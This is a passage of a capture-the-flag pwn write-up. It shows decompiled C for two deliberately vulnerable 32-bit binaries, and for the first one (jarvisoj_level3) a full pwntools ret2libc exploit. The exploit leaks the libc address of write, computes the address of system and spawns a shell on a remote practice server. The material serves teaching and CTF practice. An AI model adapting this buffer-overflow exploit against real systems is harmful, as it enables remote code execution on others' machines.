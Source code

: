 

## 0x1D.jarvisoj_level3

```c
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  write(1, "Input:\n", 7u);
  return read(0, buf, 0x100u);
}
```

```python
from pwn import *
context(log_level='debug')
#io = process("./level3")
io = remote("node3.buuoj.cn",28043)
elf = ELF("./level3")
libc = ELF("./libc-2.23.so")
write_plt = elf.sym['write']
fun_add = 0x0804844B
write_got = elf.got['write']
payload = 'a'*0x88 +'bbbb' + p32(write_plt) + p32(fun_add) + p32(1)+ p32(write_got)  + p32(4)
io.recv()
io.sendline(payload)
write_add = u32(io.recv(4))
print hex(write_add)
io.recvuntil("Input:\n")
base = write_add - libc.sym['write']
sys_add = base + libc.sym['system']
bin_sh = base + libc.search('/bin/sh').next()
payload = 'a'*0x88 +'bbbb' + p32(sys_add) +p32(0x10086110) + p32(bin_sh)
io.sendline(payload)
io.interactive()
```

## 0x1E.[Black Watch 入群题]PWN（未交flag）

```c
ssize_t vul_function()
{
  size_t v0; // eax
  size_t v1; // eax
  char buf[24]; // [esp+0h] [ebp-18h] BYREF
  v0 = strlen(m1);
  write(1, m1, v0);
  read(0, &s, 0x200u);
  v1 = strlen(m2);
  write(1, m2, v1);
  return read(0, buf, 0x20u);
}
```
